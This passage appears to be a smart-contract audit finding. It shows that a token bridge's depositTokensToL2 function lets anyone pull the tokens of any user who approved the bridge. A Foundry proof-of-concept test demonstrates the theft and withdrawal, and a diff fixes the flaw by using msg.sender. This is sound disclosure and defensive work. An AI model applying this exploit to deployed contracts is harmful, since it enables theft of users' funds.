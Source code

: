 **Impact:**
An attacker can move tokens out of any victim account whose token allowance to the bridge is greater than zero. This will move the tokens into the bridge vault, but they will be assigned to the attacker's address in L2 (because an attacker-controlled address was set in the `l2Recipient` parameter)

**Proof of Concept:**

Add the following test to the `L1TokenBridge.t.sol` file:

```solidity
    function testCanStealApprovedTokensOfAnotherUser() public {
        // unsuspecting user approves
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        uint256 depositAmount = token.balanceOf(user);

        address thief = makeAddr("thief");
        vm.startPrank(thief);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, thief, depositAmount);
        tokenBridge.depositTokensToL2({
            from: user,
            l2Recipient: thief,
            amount: depositAmount
        });

        assertEq(token.balanceOf(user), 0);
        assertEq(token.balanceOf(address(vault)), depositAmount);

        // thief can even withdraw stolen tokens
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(thief, depositAmount),
            operator.key
        );
        tokenBridge.withdrawTokensToL1(thief, depositAmount, v, r, s);
        assertEq(token.balanceOf(thief), depositAmount);
        vm.stopPrank();
    }
```

**Recommended Mitigation:**

Consider modifying the `depositTokensToL2()` function such that the `msg.sender`/caller of the function is automatically the `from` address:

```diff
-   function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused
+   function depositTokensToL2(address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-       token.safeTransferFrom(from, address(vault), amount);
+       token.safeTransferFrom(msg.sender, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
-       emit Deposit(from, l2Recipient, amount);
+       emit Deposit(msg.sender, l2Recipient, amount);
    }
```
